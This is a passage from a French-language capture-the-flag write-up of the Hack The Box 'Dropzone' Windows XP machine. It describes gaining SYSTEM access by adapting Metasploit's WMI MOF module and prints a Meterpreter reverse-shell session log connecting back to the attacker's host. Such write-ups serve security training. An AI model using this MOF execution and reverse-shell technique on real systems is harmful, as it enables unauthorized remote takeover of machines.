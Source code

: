 Malheureusement tout ça ne nous ouvre pas la porte du système... so what ? Écraser une DLL ou un exe ? Placer un fichier .job ? Sous Linux ça aurait été vite fait de récupérer une clé SSH mais là je sèche un peu.  

Sur le forum de HTB certains ont mentionné *Stuxnet*. Ce malware est bien connu pour avoir exploité des failles dans la gestion des shortcuts (fichier .LNK). Metasploit dispose de plusieurs modules pour cela mais après avoir placé des LNK piégés dans le bureau de l'administrateur, force est de constater que ce n'est pas le chemin attendu.  

Je suis alors retourné à mon idée de fichier job. Ces fichiers présents dans *c:\windows\tasks* sont des fichiers binaires qui contiennent le nom de l'utilisateur, le nom de la machine, la commande à exécuter et la date, l'heure et la fréquence de répétition de la tâche.  

J'ai reconfiguré un Windows XP dans une VM pour qu'il ait un utilisateur Administrateur avec le nom de machine DROPZONE, créé une tache appelant un reverse Meterpreter puis recopié le job et l'exe sur Dropzone... sans résultats. Je ne suis pas expert en administration Windows mais à ce que j'ai pu lire il peut être nécessaire que la machine redémarre pour voir le fichier job :(   

Master Of Flags
---------------

Finalement j'ai eu un conseil de *Elpugo* de me pencher en détails sur les fichiers MOF... Kezako ?  

J'ai pas eu besoin d'aller beaucoup plus loin que ma boîte mail pour avoir des infos sur le sujet car [ça faisait l'objet d'une newsletter HSC](http://shootingsawk.lescigales.org/HSC/lsv_WMI_MOF.txt).  

Pour résumer, les fichiers MOF permettent à des administrateurs de définir des taches qui seront lancées automatiquement lorsqu'un événement a lieu sur la machine.  

On trouve [différents exemples](https://poppopret.blogspot.com/2011/09/playing-with-mof-files-on-windows-for.html) de fichiers MOF qui permettent normalement l'exécution de commandes... mais tous semble échouer à cause d'une obscure erreur RPC...  

Finalement il a fallut une fois de plus s'en remettre à Metasploit [qui possède un module exploitant les fichiers MOF](https://github.com/rapid7/metasploit-framework/blob/master/lib/msf/core/exploit/wbemexec.rb) qui fonctionne parfaitement.  

Il suffit d'extraire le code du MOF dans le module, remplacer les variables, retirer l'échappement des backslashs et après un test local pour valider on passe à l'action :)  

```plain
msf exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.14.11:80
[*] Sending stage (179779 bytes) to 10.10.10.90
[*] Meterpreter session 1 opened (10.10.14.11:80 -> 10.10.10.90:1052) at 2018-06-12 17:04:50 +0200

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > shell
Process 2000 created.
Channel 1 created.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\Documents and Settings\Administrator\Desktop\flags>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 7CF6-55F6

 Directory of C:\Documents and Settings\Administrator\Desktop\flags

10/05/2018  10:10 ��    <DIR>          .
10/05/2018  10:10 ��    <DIR>          ..
10/05/2018  10:09 ��                76 2 for the price of 1!.txt
               1 File(s)             76 bytes
               2 Dir(s)   6.755.971.072 bytes free
```